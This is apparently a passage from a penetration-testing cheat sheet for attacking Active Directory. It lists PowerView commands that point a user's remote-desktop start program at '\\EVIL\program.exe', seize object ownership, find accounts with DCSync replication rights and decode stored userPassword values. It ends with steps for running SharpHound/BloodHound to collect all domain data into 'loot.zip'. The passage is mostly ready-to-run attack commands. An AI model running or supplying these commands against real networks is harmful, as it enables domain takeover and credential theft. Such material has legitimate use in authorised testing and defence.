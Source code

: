 ```powershell
Set-DomainObject testuser -Set @{'mstsinitialprogram'='\\EVIL\program.exe'} -Verbose
```


-  Set the owner of 'dfm' in the current domain to 'harmj0y'

```powershell
Set-DomainObjectOwner -Identity dfm -OwnerIdentity harmj0y
```


-  Retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)

```powershell
Get-ObjectACL "DC=testlab,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}
```


-  Check if any user passwords are set

```powershell
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
```

-  Find Shared folders

```powershell
Invoke-ShareFinder
```


#### Bloodhound

To use **bloodhound** you will also need **neo4j**. 

1. Start neoaj using `neo4j console`

2. Upload `SharpHound.ps1` to the machine and launch it:
	```powershell
	Import-module SharpHound.ps1
	```
	
3. Start it and extract data using :
	```powershell
	Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip
	```
	
4. 	Launch bloodhound on your host using `bloudhound` command.

5. Import graph on your right menu

6. Look to queries on the left pannel